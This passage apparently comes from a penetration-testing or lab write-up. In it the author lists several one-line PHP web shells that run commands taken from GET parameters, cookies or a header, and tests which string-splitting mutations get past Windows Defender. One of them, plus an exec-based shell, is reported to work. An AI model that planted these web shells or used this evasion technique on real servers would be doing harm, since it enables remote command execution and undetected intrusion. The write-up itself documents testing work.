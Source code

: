 So upload was successful, but execution failed.

Listed here (with the name as comment), I performed some mutation of the previous WebShell to figure out how little I can change to bypass Windows Defender. 

```php
<?php system($_GET['c']); ?> //SYS_GET_C
<?php system($_GET['foo']); ?> //SYS_GET_FOO
<?php system($_COOKIES['foo']); ?> //SYS_COOKIE_FOO
<?php system($_SERVER["HTTP_X_DATA"]); ?> //SYS_HEADER_DATA
<?php $LOL=$_GET; system($LOL['foo']);  ?> //VAR_SYS_GET_FOO
<?php $LOL='system($_GET["c"]);'; eval($LOL); ?> //STR_SYS_GET_C_EVAL
<?php $LOL="sy"."stem(\$_GET['c']);"; eval($LOL); ?> //BROKEN_SYS_GET_C_EVAL
```

Fun fact, every single WebShell got caught besides from `BROKEN_SYS_GET_C_EVAL` (the last one).
Apparently, breaking the string was enought to make me bypass Windows Defender.

![10e4b64505e98b57b0a1875aa35b0636.png](/assets/10e4b64505e98b57b0a1875aa35b0636.png)

I am already happy, but I wanna try to use other functions besides from `system`. So I tried with `exec`.
Keep in mind that `exec` doesn't output directly the data as `system` does, so we have to print it out on our own.

To check again, I tried with a simple one:

```php
<?php
	echo exec($_GET['c']);
?>
```
 and to my surprise, it worked.
 